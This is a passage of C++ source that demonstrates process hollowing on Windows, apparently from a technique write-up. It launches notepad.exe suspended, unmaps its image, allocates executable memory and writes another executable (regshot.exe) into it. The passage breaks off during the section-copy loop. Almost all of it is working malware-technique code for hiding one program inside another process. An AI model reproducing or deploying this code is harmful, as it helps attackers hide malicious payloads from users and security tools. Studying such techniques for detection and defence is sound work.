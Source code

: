 ```cpp
{
	// create destination process - this is the process to be hollowed out
	LPSTARTUPINFOA si = new STARTUPINFOA();
	LPPROCESS_INFORMATION pi = new PROCESS_INFORMATION();
	PROCESS_BASIC_INFORMATION *pbi = new PROCESS_BASIC_INFORMATION();
	DWORD returnLenght = 0;
	CreateProcessA(NULL, (LPSTR)"c:\\windows\\syswow64\\notepad.exe", NULL, NULL, TRUE, CREATE_SUSPENDED, NULL, NULL, si, pi);
	HANDLE destProcess = pi->hProcess;

	// get destination imageBase offset address from the PEB
	NtQueryInformationProcess(destProcess, ProcessBasicInformation, pbi, sizeof(PROCESS_BASIC_INFORMATION), &returnLenght);
	DWORD pebImageBaseOffset = (DWORD)pbi->PebBaseAddress + 8; 
	
	// get destination imageBaseAddress
	LPVOID destImageBase = 0;
	SIZE_T bytesRead = NULL;
	ReadProcessMemory(destProcess, (LPCVOID)pebImageBaseOffset, &destImageBase, 4, &bytesRead);

	// read source file - this is the file that will be executed inside the hollowed process
	HANDLE sourceFile = CreateFileA("C:\\temp\\regshot.exe", GENERIC_READ,	NULL, NULL, OPEN_ALWAYS, NULL, NULL);
	DWORD sourceFileSize = GetFileSize(sourceFile, NULL);
	LPDWORD fileBytesRead = 0;
	LPVOID sourceFileBytesBuffer = HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, sourceFileSize);
	ReadFile(sourceFile, sourceFileBytesBuffer, sourceFileSize, NULL, NULL);
	
	// get source image size
	PIMAGE_DOS_HEADER sourceImageDosHeaders = (PIMAGE_DOS_HEADER)sourceFileBytesBuffer;
	PIMAGE_NT_HEADERS sourceImageNTHeaders = (PIMAGE_NT_HEADERS)((DWORD)sourceFileBytesBuffer + sourceImageDosHeaders->e_lfanew);
	SIZE_T sourceImageSize = sourceImageNTHeaders->OptionalHeader.SizeOfImage;

	// carve out the destination image
	NtUnmapViewOfSection myNtUnmapViewOfSection = (NtUnmapViewOfSection)(GetProcAddress(GetModuleHandleA("ntdll"), "NtUnmapViewOfSection"));
	myNtUnmapViewOfSection(destProcess, destImageBase);

	// allocate new memory in destination image for the source image
	LPVOID newDestImageBase = VirtualAllocEx(destProcess, destImageBase, sourceImageSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
	destImageBase = newDestImageBase;

	// get delta between sourceImageBaseAddress and destinationImageBaseAddress
	DWORD deltaImageBase = (DWORD)destImageBase - sourceImageNTHeaders->OptionalHeader.ImageBase;

	// set sourceImageBase to destImageBase and copy the source Image headers to the destination image
	sourceImageNTHeaders->OptionalHeader.ImageBase = (DWORD)destImageBase;
	WriteProcessMemory(destProcess, newDestImageBase, sourceFileBytesBuffer, sourceImageNTHeaders->OptionalHeader.SizeOfHeaders, NULL);

	// get pointer to first source image section
	PIMAGE_SECTION_HEADER sourceImageSection = (PIMAGE_SECTION_HEADER)((DWORD)sourceFileBytesBuffer + sourceImageDosHeaders->e_lfanew + sizeof(IMAGE_NT_HEADERS32));
	PIMAGE_SECTION_HEADER sourceImageSectionOld = sourceImageSection;
	int err = GetLastError();

	// copy source image sections to destination
	for (int i = 0; i < sourceImageNTHeaders->FileHeader.NumberOfSections; i++)
	{
```